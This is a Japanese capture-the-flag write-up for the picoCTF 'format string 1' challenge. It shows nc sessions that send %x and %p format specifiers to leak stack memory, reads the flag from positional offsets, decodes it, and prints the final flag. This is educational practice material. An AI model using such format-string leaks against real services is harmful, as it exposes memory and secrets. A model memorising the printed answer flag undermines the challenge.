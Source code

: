 # format string 1:Binary Exploitation

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!  
Download the binary [here](format-string-1).  
Download the source [here](format-string-1.c).  
Connect with the challenge instance here: `nc mimas.picoctf.net 49971`

# Solution

secret menuなるものを探せとのことである。とりあえず、`nc mimas.picoctf.net 49971`を実行してみる。
```
$ nc mimas.picoctf.net 49971
Give me your order and I'll read it back to you:
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Here's your order: 402118064318a000146a880a347834fdd41ef064109e606432e4d01fdd41fc0006f6369706d316e34333179373431665f646635337643308d87743072506c797453964341de9641120986432e4d00fdd41fd078257825782578257825782578257825
Bye!
```

いきなり、書式文字列攻撃とみたてて%xを大量に投げたら、途中から%xの16進が連続したので、それまでの部分で何かフラグっぽいものを探す。picoは`70 69 63 6f`なのでこれをヒントに探すと、`6f636970`という部分を発見。リトルエンディアンでフラグが格納されているようだ。ただし、フラグの一部が欠落しているので、入力を`%p`に変えてもう一度実行する。
```
$ nc mimas.picoctf.net 58878
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x71c498968a00(nil)0x6628800xa3478340x7fffe8b2bc100x71c498759e600x71c49897e4d00x10x7fffe8b2bce0(nil)(nil)0x7b4654436f636970
```
14個目あたりにフラグっぽいやつが出てきた。入力を`%14$p%15$p%16$p%17$p%18$p`に変えてフラグを出力させる。
`0x7b4654436f6369700x355f31346d316e340x3478345f333179370x31395f673431665f0x7d653464663533`これが出てきたのでcyberchefに投げる。
From Hexで`{FTCocip5_14m1n44x4_31y719_g41f_}e4df53`と出てきたので、8文字ずつ並べ変える。

flagが得られた。

`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`

